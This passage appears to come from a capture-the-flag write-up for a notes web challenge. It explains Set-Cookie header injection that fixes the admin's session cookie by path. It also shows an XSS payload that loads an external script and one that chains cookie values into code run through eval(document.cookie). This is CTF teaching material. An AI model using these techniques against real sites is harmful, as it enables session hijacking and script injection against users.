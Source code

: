 ```go
				break
			}
		}
		responseee = "404 No Note Found"
	}
	headerSetter(w, cType)
	fmt.Fprintf(w, responseee)
}
```

Remember how we couldn't get the admin to visit our note previously? Well, now we can! All we have to do is to inject a `Set-Cookie` header, setting the admin's ID cookie to our own.

But we still need the original admin's ID \(otherwise, how do we get the admin's note?\). We can get around that quite easily, though - by simply setting the `Path` of our custom cookie to `/get`, we can make sure that when the admin visits our main site, our custom `id` cookie is used \(since the longest match "wins"\). However, since the admin's original `id` cookie still exists with the `Path` set to `/`, the `/find` endpoint will still use the original admin ID.

### Crafting Our Payload

_On hindsight, this was way more complex than necessary. The intended solution simply used `eval(window.name)`, since `window.name` can be set by the attacker when using `window.open()`. I'll share mine anyway, because it was quite interesting \(to me at least\)._

Since we’re in innerHTML, the ideal way is to append a new script element and fetch our external script:

`var newScript = document.createElement("script");newScript.src = "http://www.example.com/my-script.js";this.appendChild(newScript);`

But there’s a 75 character limit in order for the XSS payload to be stored. 

I ended up using cookies, since `document.cookies` will return a string like:

```text
cookieA=valueA; cookieB=valueB; ...
```

This format is very convenient to create JS code which we can `eval()`. Let the cookie name be `var x`, and the cookie value be `eval(alert())`, and we can run valid JavaScript code using `eval(document.cookie)`:

```javascript
var x = eval(alert())
```

Since the header values _also_ have a length limit of 50 characters, we need to set multiple cookies. Essentially, the `document.cookies` will return the following string \(newlines inserted for clarity\):

```javascript
var A = "SOME_STRING";
var B = A + "SOME_STRING";

...

var a = Z + "SOME_STRING";
var b = eval(a)
```
